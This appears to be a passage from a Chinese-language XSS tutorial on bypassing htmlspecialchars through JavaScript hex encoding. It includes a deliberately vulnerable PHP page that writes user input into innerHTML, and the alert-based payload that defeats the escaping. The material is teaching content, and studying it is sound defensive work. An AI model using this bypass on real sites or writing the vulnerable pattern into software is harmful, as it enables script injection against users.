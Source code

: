 ![][19]

onclick事件需要点击才会执行，先html解码，然后js解码，从而执行弹窗

![][20]

## 案例二：JS——HTML ##

```html
    <html>

	<?php
	if(!array_key_exists ("name",$_GET) || $_GET['name'] == NULL || $_GET['name'] == ''){
   		$isempty = true;
	} else {
	$value = $_GET['name'];
	$html = '<pre>';
	$html .= "Your Name is :
       <div id='a'></div>
       <script>
           document.getElementById('a').innerHTML= "."'".htmlspecialchars($value)."'".";
       </script>
	";
	$html .= '</pre>';
 
	}
	echo @$html;
	?>

	</html>
```

这里我们先分析value的环境，通过url参入参数，在script内，先进行js解码，然后写入html内进行html解码
于是考虑将payload进行js解码，此时便可以绕过html的实体编码

如果我们输入以往payload，会发现htmlspecialchars函数对value的特殊字符进行了实体编码

```html
    <html>

	<pre>Your Name is :
       <div id='a'></div>
       <script>
           document.getElementById('a').innerHTML= '&lt;img src=x onerror=alert(1)&gt;';
       </script>
 	</pre>

	</html>
```

于是我们构造payload，对url传入的参数先进行js编码


```javascript
\x3cimg src=x onerror=alert(1)\3e
```


[1]: {{ '/web/resources/xss1.png' | prepend: site.baseurl  }}
[2]: {{ '/web/resources/xss2.png' | prepend: site.baseurl  }}
[3]: {{ '/web/resources/xss3.png' | prepend: site.baseurl  }}
[4]: {{ '/web/resources/xss4.png' | prepend: site.baseurl  }}
[5]: {{ '/web/resources/xss5.png' | prepend: site.baseurl  }}
[6]: {{ '/web/resources/xss6.png' | prepend: site.baseurl  }}
[7]: {{ '/web/resources/xss7.png' | prepend: site.baseurl  }}
[8]: {{ '/web/resources/xss8.png' | prepend: site.baseurl  }}
[9]: {{ '/web/resources/xss9.png' | prepend: site.baseurl  }}
[10]: {{ '/web/resources/xss10.png' | prepend: site.baseurl  }}
[11]: {{ '/web/resources/xss11.png' | prepend: site.baseurl  }}
[12]: {{ '/web/resources/xss12.png' | prepend: site.baseurl  }}
[13]: {{ '/web/resources/xss13.png' | prepend: site.baseurl  }}
[14]: {{ '/web/resources/xss14.png' | prepend: site.baseurl  }}
[15]: {{ '/web/resources/xss15.png' | prepend: site.baseurl  }}
[16]: {{ '/web/resources/xss16.png' | prepend: site.baseurl  }}
[17]: {{ '/web/resources/xss17.png' | prepend: site.baseurl  }}
[18]: {{ '/web/resources/xss18.png' | prepend: site.baseurl  }}
[19]: {{ '/web/resources/xss19.png' | prepend: site.baseurl  }}
[20]: {{ '/web/resources/xss20.png' | prepend: site.baseurl  }}
[21]: {{ '/web/resources/xss21.png' | prepend: site.baseurl  }}
